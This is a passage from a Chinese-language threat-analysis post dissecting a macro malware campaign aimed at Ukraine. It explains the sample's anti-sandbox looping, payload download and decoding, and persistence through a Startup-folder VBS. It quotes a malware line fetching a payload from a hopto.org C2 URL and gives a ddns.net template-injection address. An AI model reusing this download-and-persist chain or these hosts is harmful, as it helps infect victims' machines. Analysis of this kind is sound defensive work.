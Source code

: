 的设置来启动一个永真循环，这里的slepp应该也是反沙箱的设计

接着程序尝试请求之前拼接好的请求地址，并且如果请求成功则会将返回的body做为参数传入到save函数用于保存

`save CZeq("http://skrembler.hopto.org/WIN-IHN30SD7IMB_9AC9AA87/tor.php")`

Czeq函数如下

[![](https://p1.ssl.qhimg.com/t01dbd56375764ca09e.png)](https://p1.ssl.qhimg.com/t01dbd56375764ca09e.png)

如果成功请求，则会将返回值写入到%APPDATA%MicrosoftExcel 目录下，文件名为由pdBR生成的5位随机数

尝试将传入进来的data进行写入，写入之后程序会判断文件大小是否大于1025，如果小于则删除

如果文件大于1025说明成功请求，则会将txt文件作为参数传递到Encode进行解密，解密后会在当前目录释放一个与txt同名的exe文件。

exe文件成功释放之后程序会在%APPDATA%MicrosoftWindowsStart MenuProgramsStartup目录下释放一个同名的vbs文件，该vbs文件用于调用执行刚才解密的exe。

[![](https://p4.ssl.qhimg.com/t01383787a1fd22321e.png)](https://p4.ssl.qhimg.com/t01383787a1fd22321e.png)

程序成功保存并运行后，攻击者还将通过指定目录下的exe个数来控制是否重启用户的计算机：

[![](https://p5.ssl.qhimg.com/t0188a3e48e5e2d44a0.png)](https://p5.ssl.qhimg.com/t0188a3e48e5e2d44a0.png)



## 关联样本分析

后续通过开源情报，找到众多关联的样本，这里以hash为4778869cf2564b14b6bbf4baf361469a的样本做作对比。

样本同样是docx模板注入，注入地址为：

[http://yotaset.ddns.net/yota.dot](http://yotaset.ddns.net/yota.dot)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017d497172e9918011.png)

文档内容如下

[![](https://p4.ssl.qhimg.com/t01d95952dedcc6a8ae.png)](https://p4.ssl.qhimg.com/t01d95952dedcc6a8ae.png)

文档内容署名为：

Головне управління розвідки<br>
Міністерство оборони України

译为

通用情报局<br>
乌克兰国防部

而文章冒充的ICTV是乌克兰本地的官方电台节目。

关联样本所注入的dot文档也是宏代码利用，结构和原始文档几乎保持一致，有细微的不同，比如通过如下的命令设置宏属性为安全

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0192f135b8cf8f725b.png)
